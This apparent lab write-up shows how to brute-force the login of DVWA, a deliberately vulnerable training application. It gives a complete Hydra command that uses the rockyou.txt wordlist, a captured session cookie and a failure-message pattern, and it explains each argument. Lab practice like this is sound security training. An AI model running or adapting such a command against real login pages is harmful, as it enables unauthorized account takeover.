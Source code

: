## BRUTE FORCE

Attack :

We will attack using the Hydra tool. First, we need to obtain the cookies from the website.

![image](https://github.com/user-attachments/assets/b58c9bc4-8ed9-410e-84d7-f626b2426b48)
 
using hyra tool:

payload:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
"http-get-form://172.17.128.158/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=medium; PHPSESSID=5ba0cf3c373c345a17dbcfb19b595c31:F=Username and/or password incorrect"
```
This Hydra command is used for brute-forcing the login of a website.

-Target: 172.17.128.158/DVWA/vulnerabilities/brute/

-Username: Always "admin"

-Passwords: Attempted from the rockyou.txt list

-Cookies: Includes session info to bypass security

-Failure pattern: Looks for "incorrect password" message to know when to try the next password

![image](https://github.com/user-attachments/assets/fa79da0e-1857-40c3-8b0c-30cda63cb211)
